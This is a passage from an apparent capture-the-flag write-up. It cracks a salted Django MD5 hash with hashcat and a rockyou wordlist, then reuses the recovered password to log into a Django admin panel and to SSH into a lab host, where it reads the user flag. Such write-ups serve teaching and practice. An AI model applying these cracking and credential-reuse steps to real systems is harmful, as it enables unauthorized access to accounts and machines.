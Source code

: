 ```

md5$kL2cLcK2yhbp3za4w3752m$9886e17b091eb5ccdc39e436128141cf

```

#### Crack Password

The hash is of the format described [here](https://passlib.readthedocs.io/en/stable/lib/passlib.hash.django_std.html#id3), `{ident}${salt}${hash}`. The hash is calculated by combining the salt and then the password.

To crack a salted MD5 hash in `hashcat`, I’ll use mode 20 from the [example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) page, `md5($salt.$pass)`. It needs the hash in the format `{hash}:{salt}`, so mine becomes:

```

9886e17b091eb5ccdc39e436128141cf:kL2cLcK2yhbp3za4w3752m

```

It cracks almost instantly:

```

$ hashcat -m 20 hash /usr/share/wordlists/rockyou.txt 
...[snip]...
9886e17b091eb5ccdc39e436128141cf:kL2cLcK2yhbp3za4w3752m:onedayyoufeellikecrying
...[snip]...

```

#### Django Admin

This hash does work to log into the Django admin interface as clarence:

![image-20220112165850279](https://0xdfimages.gitlab.io/img/image-20220112165850279.png)

I could look around here more, but I don’t need to.

### SSH

I’ll note that clarence is a user on the machine from the `/etc/passwd` file. This password also works over SSH to get a connection:

```

oxdf@hacky$ sshpass -p 'onedayyoufeellikecrying' ssh clarence@10.10.10.21
...[snip]...
clarence@scanner:~$ 

```

And `user.txt`:

```

clarence@scanner:~$ cat user.txt
10247fad************************

```
